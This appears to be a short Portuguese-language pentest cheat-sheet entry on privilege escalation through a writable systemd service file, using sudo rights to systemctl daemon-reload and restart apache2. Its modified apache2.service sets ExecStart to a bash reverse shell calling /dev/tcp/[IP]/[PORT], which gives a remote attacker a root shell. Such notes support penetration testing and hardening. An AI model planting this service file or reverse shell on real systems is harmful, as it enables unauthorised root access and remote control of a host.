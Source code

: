 Caso tenhamos permissão de escrever em um arquivo de daemon (.service), podemos definir qual comando será executado ao iniciar o serviço.

```sh
$ sudo -l

(root) NOPASSWD: /bin/systemctl daemon-reload
(root) NOPASSWD: /bin/systemctl restart apache2
```

Definimos o comando a ser executado na iniciação do sistema com a diretiva `ExecStart`.
```sh
$ cat /lib/systemd/system/apache2.service

[Unit]
Description=The Apache HTTP Server
After=network.target remote-fs.target nss-lookup.target

[Service]
Type=forking
Environment=APACHE_STARTED_BY_SYSTEMD=true
ExecStart=/bin/bash -c '/bin/bash -i >& /dev/tcp/[IP]/[PORT] 0>&1'
ExecStop=/usr/sbin/apachectl stop
ExecReload=/usr/sbin/apachectl graceful
PrivateTmp=true
Restart=on-abort

[Install]
WantedBy=multi-user.ta
```
